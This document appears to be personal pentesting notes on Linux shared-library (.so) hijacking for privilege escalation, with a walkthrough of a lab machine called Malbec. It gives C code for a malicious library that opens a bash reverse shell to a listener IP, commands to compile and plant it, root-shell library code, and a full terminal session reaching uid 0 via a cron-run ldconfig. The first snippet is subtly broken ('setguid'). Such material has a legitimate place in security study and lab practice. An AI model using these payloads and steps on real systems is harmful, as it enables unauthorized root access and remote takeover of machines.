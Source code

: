 # Shared Objects .so Hijacking

So there are going to be times in which there will be a cronjob runnign as root and when we run the said binary it will ask us for a .so file that it is missing, this is our hint to generate one of our own.&#x20;

![](https://miro.medium.com/max/1244/1\*Mw7a4KB-psJTfY3r9q6PoQ.png)

And if we have writeable access to the LD\__LIBRARY_\_PATH it means we can just place our own like I have said before.&#x20;

Here is the code to generate a reverse shell in C.&#x20;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


void _init() {

	setgid(0);
	setguid(0);
	system("/bin/bash -i >& /dev/tcp/192.168.49.135/80 0>&1");
	

}
```

All we have to modify is the IP address of our listerner as well as the listening port.&#x20;

![](<../../../.gitbook/assets/image (30).png>)

We compile it like this on the machine or ours.

```
gcc -shared -fPIC -nostartfiles -o pwn pwn.c
```

Change the compiled binary to be named as the .so that is missing.&#x20;

```
mv pwn utils.so
chmod +x utils.so
cp utils.so /hijackable/pah
```

![](<../../../.gitbook/assets/image (33).png>)

### Example 2 (Malbec)



This binary has indeed been granted SUID privileges. Let's execute it and inspect its behavior.

```
carlos@malbec:/home/carlos$ which messenger
which messenger
/usr/bin/messenger
carlos@malbec:/home/carlos$ messenger
messenger
messenger: error while loading shared libraries: libmalbec.so: cannot open shared object file: No such file or directory
```

This error tells us that a dynamic shared library **libmalbec.so** was searched for, but not found. We can confirm this by running `ldd` against the binary.

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffd1b693000)
        libmalbec.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f25129de000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f2512bb4000)
```

#### Dynamic Library Hijacking

If we could write to the directory where the library is expected to be, we may be able to hijack the library call and execute arbitrary code. Let's inspect the **/etc/ld.so.conf.d/** directory to determine which shared library configuration files are available.

```
carlos@malbec:/home/carlos$ ls -l /etc/ld.so.conf.d/
ls -l /etc/ld.so.conf.d/
total 20
-rw-r--r-- 1 root root  38 Jun 25  2018 fakeroot-x86_64-linux-gnu.conf
-rw-r--r-- 1 root root 168 May  1  2019 i386-linux-gnu.conf
-rw-r--r-- 1 root root  44 Mar 20  2016 libc.conf
-rw-r--r-- 1 root root  14 Jan 26 04:43 malbec.conf
-rw-r--r-- 1 root root 100 May  1  2019 x86_64-linux-gnu.conf
```

The **malbec.conf** configuration file contains the following:

```
carlos@malbec:/home/carlos$ cat /etc/ld.so.conf.d/malbec.conf
cat /etc/ld.so.conf.d/malbec.conf
/home/carlos/
```

The binary searches **/home/carlos/** for the shared library. This is perfect for our purposes as **/home/carlos/** is the home directory of our user, which means we should have no problem writing our malicious library.

The **/etc/crontab** file indicates that the **/sbin/ldconfig** dynamic linker process runs every two minutes and forces **/usr/bin/messenger** to search for **libmalbec.so** and link it if it is found.

```
carlos@malbec:/home/carlos$ cat /etc/crontab
cat /etc/crontab
...
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/2 * * * * root /sbin/ldconfig
```

Having obtained all this information, we should be able to abuse this functionality. We'll use the following basic root shell C code:

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

As this is a shared library, we must determine the method the calling method of the **messenger** binary. Before compiling our exploit, let's run `strings` on the binary to help gather clues about the name of our exploit method.

```
carlos@malbec:/home/carlos$ strings /usr/bin/messenger
strings /usr/bin/messenger
/lib64/ld-linux-x86-64.so.2
...
_ITM_deregisterTMCloneTable
__gmon_start__
malbec
__libc_start_main
libmalbec.so
...
_ITM_registerTMCloneTable
malbec
__cxa_finalize@@GLIBC_2.2.5
...
```

The `malbec` string appears a couple of times in the output. Let's give this name a shot. To create our shell source code, we will issue the `cat <<EOT >> rootshell.c` command and then paste the following C code (including the newline character at the end) when presented with the `>` prompt:

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
```

The process is as follows:

```
carlos@malbec:/home/carlos$ cat <<EOT >> rootshell.c
cat <<EOT >> rootshell.c
> #include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
#include <stdio.h>
> #include <sys/types.h>
> #include <unistd.h>
> void malbec() {
> setuid(0); setgid(0); system("/bin/bash");
> }
> 
```

Inputting `EOT` ends our input sequence and writes our code to the file.

```
> EOT
EOT
carlos@malbec:/home/carlos$ 
carlos@malbec:/home/carlos$ cat rootshell.c                                       
cat rootshell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
```

Compiling the source code now produces the following error:

```
carlos@malbec:/home/carlos$ gcc rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
< rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Let's review our environment variables.

```
carlos@malbec:/home/carlos$ export
export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
carlos@malbec:/home/carlos$
```

It seems the `PATH` variable has not been exported. To fix this, we'll `export` this variable.

```
carlos@malbec:/home/carlos$ export PATH
export PATH
carlos@malbec:/home/carlos$ export
export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
carlos@malbec:/home/carlos$
```

Let's try to compile again.

```
carlos@malbec:/home/carlos$ gcc rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
< rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
carlos@malbec:/home/carlos$ ls -l libmalbec.so
ls -l libmalbec.so
-rwxr-xr-x 1 carlos carlos 16088 Jan 27 11:38 libmalbec.so
```

The compiler runs without further issues. Good. Remembering that **ldconfig** runs on a crontab schedule, we will wait two minutes for our library to be found. Then, we can test for successful linking of our malicious library with `ldd`.

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffd752d6000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f498cc00000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f498ca3f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f498cc1a000)
```

Excellent. The process picked up our library. If we run the **messenger** binary, we should drop into a root shell:

```
carlos@malbec:/home/carlos$ id
id
uid=1000(carlos) gid=1000(carlos) groups=1000(carlos)
carlos@malbec:/home/carlos$ messenger
messenger
root@malbec:/home/carlos# id
id
uid=0(root) gid=0(root) groups=0(root),1000(carlos)
```
